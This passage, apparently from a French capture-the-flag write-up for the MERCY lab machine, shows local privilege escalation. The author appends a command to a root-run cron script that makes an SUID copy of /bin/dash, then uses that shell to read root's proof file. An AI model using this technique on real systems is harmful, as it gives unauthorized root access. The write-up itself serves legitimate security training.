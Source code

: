 L'utilisateur dispose d'un script qui est visiblement exécuté via une crontab :

```bash
$ cat .private/secrets/timeclock
#!/bin/bash

now=$(date)
echo "The system time is: $now." > ../../../../../var/www/html/time
echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
chown www-data:www-data ../../../../../var/www/html/time
```

En effet, le fichier mentionné est récent :

```console
$ ls -al ../../../../../var/www/html/time
-rw-r--r-- 1 www-data www-data 79 Mar  7 05:27 ../../../../../var/www/html/time
$ date
Tue Mar  7 05:29:15 +08 2023
```

Ajouté à l'utilisation de `chown`, on se dit qu'un utilisateur plus privilégié (donc `root`) lance ce script.

Tentons le tout pour le tout :

```console
$ echo "cp /bin/dash /tmp/;chmod 4755 /tmp/dash" >> .private/secrets/timeclock
$ sleep 60
$ ls -al /tmp/dash
-rwsr-xr-x 1 root root 112204 Mar  7 05:33 /tmp/dash
$ /tmp/dash
# id
uid=1003(fluffy) gid=1003(fluffy) euid=0(root) groups=0(root),1003(fluffy)
# cd /root
# ls
author-secret.txt  config  proof.txt
# cat proof.txt
Congratulations on rooting MERCY. :-)
```

Victoire !
